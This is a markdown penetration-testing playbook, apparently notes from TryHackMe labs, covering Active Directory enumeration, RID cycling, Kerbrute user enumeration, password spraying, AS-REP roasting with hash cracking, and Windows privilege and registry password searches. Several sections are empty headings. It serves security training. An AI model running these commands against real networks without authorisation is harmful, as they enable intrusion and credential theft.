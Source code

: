 # Offsec-Playbook

## Active Directory
https://github.com/swisskyrepo/InternalAllTheThings/tree/main/docs/active-directory

## Active Directory Basic Enumeration

fping -agq 10.211.11.0/24

nmap -sn 10.211.11.0/24

// We can run a service version scan with these specific ports to help identify the DC:
nmap -p 88,135,139,389,445 -sV -sC -iL hosts.txt

// If we were running a more exhaustive assessment or dealing with unfamiliar environments, starting with a full port scan ensures we don't miss critical services running on non-standard ports. We could use this command to scan for all open ports:
nmap -sS -p- -T3 -iL hosts.txt -oN full_port_scan.txt

### Network Enumeration With SMB
 nmap -p 88,135,139,389,445,636 -sV -sC TARGET_IP
 #### Listing SMB Shares :Anonymous:
 smbclient -L //TARGET_IP -N
 smbmap -H TARGET_IP
 #### Accessing SMB Shares :Anonymous:
 smbclient //TARGET_IP/SHARE_NAME -N
 enum4linux -a TARGET_IP // enum4linux TARGET_IP

### Domain Enumeration
 #### LDAP Enumeration (Anonymous Bind)
  ldapsearch -x -H ldap://10.211.11.10 -s base 
 -x: Simple authentication, in our case, anonymous authentication.
 -H: Specifies the LDAP server.
 -s: Limits the query only to the base object and does not search subtrees or children.

// We can then query user information with this command:
ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=person)"

### RPC Enumeration (Null Sessions)
    If successful, we can enumerate users with: enumdomusers
####  RID Cycling
//In Active Directory, RID (Relative Identifier) ranges are used to assign unique identifiers to user and group objects. These RIDs are components of the Security Identifier (SID), which uniquely identifies each object within a domain. Certain RIDs are well-known and standardised.

500 is the Administrator account, 501 is the Guest account and 512-514 are for the following groups: Domain Admins, Domain users and Domain guests. User accounts typically start from RID 1000 onwards.

We can use enum4linux-ng to determine the RID range, or we can start with a known range, for example, 1000-1200, and increment if we get results.

If enumdomusers is restricted, we can manually try querying each individual user RID with this bash command:

    for i in $(seq 500 2000); do echo "queryuser $i" |rpcclient -U "" -N 10.211.11.10 2>/dev/null | grep -i "User Name"; done


### Username Enumeration With Kerbrute
    ./kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc users.txt
    NB: users enumerated from rpc/enum4linux > users.txt


### Password Spraying
    Password Policy
Before we can start our attack, it is essential to understand our target's password policy. This will allow us to retrieve information about the minimum password length, complexity, and the number of failed attempts that will lock out an account.

rpcclient

We can use rpcclient via a null session to query the DC for the password policy:

rpcclient -U "" 10.211.11.10 -N

And then we can run the getdompwinfo command:

CrackMapExec

CrackMapExec is a well-known network service exploitation tool that we will use throughout this module. It allows us to perform enumeration, command execution, and post-exploitation attacks in Windows environments. It supports various network protocols, such as SMB, LDAP, RDP, and SSH. If anonymous access is permitted, we can retrieve the password policy without credentials with the following command:

crackmapexec smb 10.211.11.10 --pass-pol

nxc smb 10.211.11.10 --pass-pol

NB i prefer to use Netexec

crackmapexec smb 10.211.11.20 -u users.txt -p passwords.txt

nxc smb 10.211.11.20 -u users.txt -p passwords.txt

## AD: Authenticated Enumeration

###  AS-REP Roasting
    Rubeus.exe asreproast [Windows]

    Impacket’s GetNPUsers.py (Linux/Windows):: ./GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass

    Crack the Hash :: hashcat -m 18200 hashes.txt wordlist.txt NB: 18200 ASREP Hash mode
### Manuel Enumeration

    "whoami /all"

    "Privileges
Let’s list some high privileges that can be pivotal in planning your next steps. The most interesting privileges to check for are:

SeImpersonatePrivilege: As mentioned already, this privilege allows a process to impersonate the security context of another user after authentication. The “potato” attack revolves around abusing this privilege.

SeAssignPrimaryTokenPrivilege: This privilege permits a process to assign the primary token of another user to a new process. It is used in conjunction with the SeImpersonatePrivilege privilege.

SeBackupPrivilege: This privilege lets users read any file on the system, ignoring file permissions. Consequently, attackers can use it to dump sensitive files like the SAM or SYSTEM hive.

SeRestorePrivilege: This privilege grants the ability to write to any file or registry key without adhering to the set file permissions. Hence, it can be abused to overwrite critical system files or registry settings.

SeDebugPrivilege: This privilege allows the account to attach a debugger to any process. As a result, the attacker can use this privilege to dump memory from LSASS and extract credentials or even inject malicious code into privileged processes.

In brief, whoami /all informs you of your current power, be it due to group memberships or due to privileges. It is essential to note your findings as this tells your starting point."

#### System and Domain enum
    hostname;
    systeminfo 
    set
#### Domain Users
    net user /domain
    net user daniel.turner /domain
#### Domain Groups
    net group /domain 
    net localgroup  
    net localgroup administrators 
#### Logged-on Users and Sessions
    query user, or quser for short, to list users logged on to a machine
    tasklist /v, net session, 
#### Identifying Service Accounts
    Search using wmic: wmic service get Name,StartName || PS Get-WmiObject Win32_Service | select Name, StartName
    Search Using SC: sc query state= all || sc query state= all | find "DHCP"
#### Watching the Environment and Registry
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v keyword
#### Installed Applications
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall
#### Searching the Registry
    reg query HKLM /f "password" /t REG_SZ /s




## AD: Authenticated Enumeration 

## Windows Privilege Escalation


## Linux Privilege Escalation



